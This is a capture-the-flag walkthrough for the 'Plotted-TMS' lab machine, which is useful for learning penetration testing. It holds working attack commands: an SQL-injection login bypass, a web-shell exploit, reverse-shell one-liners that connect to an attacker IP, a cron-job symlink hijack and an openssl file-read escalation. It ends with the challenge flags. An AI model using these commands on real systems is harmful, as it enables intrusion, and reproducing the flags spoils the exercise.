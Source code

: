 # Plotted-TMS - Easy

```shell
nmap -T4 -p- -A -Pn -v 10.10.85.183

gobuster dir -u http://10.10.85.183 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,bak,js,json,docx,pdf,zip,sh,pl,xml,sql -t 50

gobuster dir -u http://10.10.85.183:445 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,bak,js,json,docx,pdf,zip,sh,pl,xml,sql -t 50

#for recursive scanning
feroxbuster -u http://10.10.85.183:445/management -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,bak,js,txt,json,docx,pdf,zip,cgi,sh,pl,aspx,sql,xml --extract-links --scan-limit 2 --filter-status 400,401,404,405,500 --silent

#modify exploit for TOMS v1.0 rce
vim 50221.py

python2 50221.py
#run exploit
#this uploads web shell

nc -nvlp 4444
#execute reverse-shell command on webshell
#this gives us shell

python3 -c 'import pty;pty.spawn("/bin/bash")'

id
#www-data

#check cronjobs
cat /etc/crontab

#check script run as plot_admin
cat /var/www/scripts/backup.sh

ls -la /home/plot_admin/tms_backup
#permission denied

ls -la /var/www/scripts
#we have write access to directory

cd /var/www/scripts

#create another script
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.14.31.212 4445 >/tmp/f" > evil.sh

chmod +x evil.sh

#symbolic link evil.sh to backup.sh
ln -sf evil.sh backup.sh

#setup listener
nc -nvlp 4445

#after a minute, the cron job runs
#we get reverse shell

cd /home/plot_admin
#get user flag

#run linpeas to check for privesc

#check doas.conf
cat /etc/doas.conf
#we can run openssl as root

#get exploit from GTFObins
#file read
LFILE="/root/root.txt"

doas -u root openssl enc -in "$LFILE"
```

* Open ports & services:

  * 22 - ssh - OpenSSH 8.2p1
  * 80 - http - Apache httpd 2.4.41
  * 445 - http - Apache httpd 2.4.41

* The webpage on port 80 is the default Apache landing page; we can check for hidden directories.

* Now, we are able to find /admin directory, which contains 'id_rsa' file - this leads us to base64 text.

* When decoded, it shows that this was a red herring; we will have to continue our enumeration process.

* We find other directories - /shadow and /passwd - but this also contains a similar base64 that tells us to enumerate further.

* Meanwhile, we can check the webpage on port 445 - this also happens to be a default Apache page.

* We can enumerate the webpage on port 445 for any hidden directories.

* Now, we find /management on port 445 - this leads us to another page.

* We can enumerate this directory recursively using ```feroxbuster```; this gives us some interesting directories inside /management:

  * /about
  * /uploads
  * /pages
  * /admin
  * /assets
  * /database
  * /plugins
  * /classes

* Now, /database contains a .sql file, which contains password hashes for 2 users 'admin' and 'jsmith'.

* Both these MD5 hashes can be cracked, giving us the creds admin:admin123 and jsmith:jsmith123

* We can use both these creds to login at /admin, but it does not work.

* We can attempt injection to bypass login; SQL injection works and using the payload ```' or 1=1 limit 1 -- -+```, we are able to login.

* Now, we have access to the management system dashboard as admin user - we have to look for ways to get reverse shell.

* On searching for 'toms v1.0 exploit', we get RCE exploits for the same.

* Now, we are unable to receive reverse shell through exploit; however it does upload 'evil.php' webshell.

* So we can navigate to the link given by the exploit - webshell is uploaded in /management/uploads/evil.php

* In webshell, we can run commands like '/evil.php?cmd=id' - this shows we are user 'www-data'.

* With the help of the following reverse-shell one-liner, we get reverse shell on our listener:

```python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.14.31.212",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'```

* Now, checking the cronjobs running on the machine, we can see that it is running a backup script every minute as 'plot_admin'.

* However, we are unable to edit the script contents, so we can check for what it is doing.

* Now, we do not have write access to the script, but we have write access to directory.

* We can create another script in the same directory, and create a soft link to backup.sh, so that our evil script runs.

* Now, we have shell as plot_admin user, we can get user flag now.

* We can run ```linpeas.sh``` to check for privesc.

* Now, linpeas checks 'doas.conf' and it shows that we can run openssl as root without password.

* We can check for exploit from GTFObins - it has a file read exploit for ```openssl```, so we can use that to read root flag.

```markdown
1. What is user.txt? - 77927510d5edacea1f9e86602f1fbadb

2. What is root.txt? - 53f85e2da3e874426fa059040a9bdcab
```
